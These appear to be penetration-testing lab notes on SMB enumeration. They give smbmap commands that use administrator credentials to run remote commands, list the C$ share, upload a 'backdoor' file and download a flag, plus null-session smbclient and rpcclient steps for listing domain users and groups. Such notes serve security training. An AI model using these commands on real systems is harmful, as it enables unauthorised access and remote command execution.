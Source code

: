 
## SMBMap with Credentials
```
smbmap -u administrator -p password -H IP_addr -L
smbmap -u administrator -p password -H IP_addr -x "ipconfig"
smbmap -u administrator -p password -H IP_addr -r 'C$'
```
- -L = List of the contents of different drives
- -x = command to execute
- -r = listing a drive content


## Uploading file to target device
- Create a file (i.e. 'backdoor') in the attacker's device
```
touch backdoor
```
- Uploading 'backdoor' file to the target device where the flag is located
```
smbmap -u administrator -p password -H IP_addr --upload "/root/backdoor" "C$\backdoor"
```
- Check again if the 'backdoor' file is uploaded:
```
smbmap -u administrator -p password -H IP_addr -r "C$"
```


## Downloading file from target device
```
smbmap -u administrator -p password -H IP_addr --download "C$\flag.txt"
```
- File will be downloaded to the attacker device's “/root” folder.


# smbclient Connection with Null Session

```
smbclient -h
smbclient -L IP_addr -N
```
- -L = List of Hosts
- -N = Null Session = No password


# rpcclient Connection with Null Session
	rpcclient -h
	rpcclient -U "" -N IP_addr
- -N= No password = Null session

## After connecting with rpcclient:
	? 		  	<<< help
	srvinfo
	enumdomusers  	        <<< getting user list
	enumdomgroups		<<< getting group list
	lookupnames username    <<< Get full SID of admin
	exit
